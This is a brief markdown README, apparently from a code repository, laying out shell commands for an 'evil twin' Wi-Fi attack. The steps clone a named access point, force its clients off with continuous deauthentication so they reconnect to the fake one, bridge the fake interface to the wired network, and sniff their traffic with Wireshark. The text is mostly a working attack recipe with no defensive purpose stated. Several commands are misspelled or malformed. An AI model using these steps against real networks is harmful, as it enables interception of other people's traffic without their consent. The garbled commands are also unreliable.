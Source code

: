 # Evil Twin Attack

Evil twin is local fake assess point

## Monitor mode
```bash
sudo airmon-ng start wlan0mon

```
## Scan all the wireless access points

```bash
sudo airodump-ng wlan0mon

```
## Find the assessing point you want to clone

### Create a fake assessing point 
```bash
airbase-ng -a  50:1D:93:98:0F:BC -e Ansari -c 10  wlan0mon
```

### forcing client to disconnect & connect to the fake asses point
```
airplay-ng -0 0 -a 60:F6:77:82:7B:BB wlan0mon
```
### giving hotspot from the fake assess point 
```bash
apt-get insall bridge-utils
```
### after installaton
```
brctl addbr fake
# creating bridge between etho and fake
brctl addif fake eth0

# Adding interface which is created by airbase-ng
brctl addif fake at0
# Adding ip addresses to interdaces
ifconfig at0 0.0.0.0 up
ifconfig fake up

```
## you can listen to fake traffic using wireshark


